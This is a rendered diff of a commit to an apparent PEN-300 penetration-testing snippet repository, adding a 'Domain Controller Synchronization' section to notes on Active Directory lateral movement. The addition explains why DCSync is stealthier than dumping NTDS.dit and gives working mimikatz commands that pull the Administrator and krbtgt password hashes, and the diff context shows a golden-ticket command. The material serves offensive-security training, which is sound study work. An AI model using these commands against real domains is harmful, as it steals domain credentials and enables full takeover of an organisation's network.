

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: Active Directory/Lateral Movement.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Active Directory/Lateral Movement.md
+++ b/Active Directory/Lateral Movement.md
@@ -86,3 +86,15 @@ mimikatz # kerberos::golden /user:trike /domain:contoso.com /sid:S-1-5-21-260287
 
 
 **DOMAIN CONTROLLER SYNCHRONIZATION:**
+
+This is an alternative way to get any domain user hash without dumping the entire NTDS.dit database. For this reason DcSync is way stealthier.
+
+This attack works because the domain controller recieving the request doesn't verify that the request came from a know domain controller, only that the SID has the appropiate permissions to do so. For this reason, if a domain admin sends a request to a domain controller, this will likely succeed.
+
+We can perform this attack with mimikatz:
+
+```
+mimikatz # lsadump::dcsync /user:Administrator
+
+mimikatz # lsadump::dcsync /user:krbtgt
+```
````
